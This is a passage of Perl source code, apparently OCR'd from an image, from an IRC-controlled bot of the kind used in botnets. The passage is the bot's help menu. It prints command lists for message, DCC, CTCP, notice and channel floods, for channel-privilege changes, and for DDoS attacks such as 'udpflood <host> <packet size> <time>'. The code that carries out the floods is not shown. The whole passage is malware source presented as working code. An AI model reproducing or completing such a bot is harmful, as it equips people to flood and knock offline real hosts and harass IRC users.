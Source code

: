             sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3ddos - For DDos Command Help"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3news - For Security News Command Help "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3hacking - For Hacking Command Help"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3linuxhelp - For Linux Help"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3extras"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3version - For version info"); 

         } 

  

         if ($funcarg =~ /^flooding/) { 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :4,1[14@13-----[Flooding Based]-----14@4] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3msgflood <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3dccflood <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3ctcpflood <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3noticeflood <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3channelflood"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3maxiflood <who> "); 

         } 

           

         if ($funcarg =~ /^irc/) { 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :12,1[14@13-----[IRC Commands]-----14@12] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3voice <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3owner <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3deowner <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3devoice <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3halfop <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3dehalfop <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3op <who> "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3deop <who> "); 

         }    

           

         if ($funcarg =~ /^ddos/) { 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :12,1[14@13-----[Ddos Commands]-----14@12] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3udpflood <host> <packet size> <time>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3udp <host> <port> <packet size> <time>"); 
